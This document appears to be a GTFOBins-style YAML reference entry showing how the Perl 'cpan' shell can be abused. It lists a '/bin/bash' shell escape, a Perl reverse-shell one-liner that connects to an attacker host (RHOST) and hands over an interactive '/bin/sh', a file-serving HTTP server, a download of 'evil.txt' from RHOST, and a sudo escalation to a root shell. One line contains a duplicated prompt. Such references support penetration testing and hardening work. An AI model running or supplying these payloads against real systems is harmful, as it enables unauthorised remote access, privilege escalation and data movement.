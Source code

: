 ```yaml
---
functions:
  shell:
    - description: cpan lets you execute perl commands with `! command`  
      code: |
        $ cpan
        cpan[1]> ! exec '/bin/bash'

  reverse-shell:
    - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
      code: |
        $ cpan
        cpan[1]> ! use Socket; my $i="RHOST"; my $p=RPORT; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};

  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
      code: |
        $ cpan
        cpan[1]> ! cpan[1]> ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();

  file-download:
    - description: Fetch a remote file via HTTP GET request and store it in PWD. 
      code: |
        $ cpan
        cpan[1]> ! use File::Fetch; my $file = (File::Fetch->new(uri => 'http://RHOST/evil.txt'))->fetch(); 

  sudo:
    - code: |
        $ sudo cpan
        cpan[1]> ! exec '/bin/bash'

---
```


